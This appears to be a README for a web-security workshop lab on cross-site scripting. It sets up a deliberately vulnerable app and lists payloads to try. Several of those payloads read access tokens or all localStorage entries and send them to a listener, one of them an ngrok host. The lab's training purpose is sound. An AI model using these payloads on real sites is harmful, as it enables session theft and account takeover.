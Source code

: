 # Cross Site Scripting Setup

Access the relevant setup files in the path `web-app-security-nullcon2023-lab/vulnerabilities/xss/`.

1. Start the backend server:

    ```bash
    docker-compose up -f web-app-security-nullcon2023-lab/vulnerabilities/xss/backend/docker-compose.yml  -d --build
    ```

2. Create an admin user account using `create-admin` API endpoint:

    ```bash
    curl -X POST -H "Content-Type: application/json" -d '{"username": "admin", "password": "password321"}' http://localhost:3000/create-admin
    ```

3. Start the frontend server:

    ```bash
    $ cd web-app-security-nullcon2023-lab/vulnerabilities/xss/frontend
    $ sudo python3 https_server.py
    ```

4. Exploit following vulnerabilities:
    * Reflected XSS
    * Stored XSS
    * DOM XSS

5. Try these XSS payloads:

    ```js
    <IMG SRC=# onmouseover="alert('xxs')">
    <img src='x' onerror=alert(1) />
    <audio src='x' onerror=alert(2) />
    <video src='x' onerror=alert(3) />
    <script>alert(4);</script>
    <script>const win = window.open("http://example.com"); win.location = "javascript:alert(document.domain)"; </script>
    <script>const secret = localStorage.getItem('accessToken'); const win = window.open("http://127.0.0.1:1234/?secret="+secret); </script>
    <iframe src="javascript:document.location='http://127.0.0.1:1234/?token='+localStorage.getItem('accessToken')"></iframe>
    <img src=1 onerror="
        for(var i=0, len=localStorage.length; i<len; i++) {
            var key = localStorage.key(i);
            var value = localStorage[key];
            var request = new XMLHttpRequest();
            var url = 'https://c053-2401-4900-1cc5-c041-f040-bffb-825d-7b48.ngrok-free.app/?key=' + key + '&value=' + value;
            request.open('GET', url, false);
            request.send();
        }" />
    ```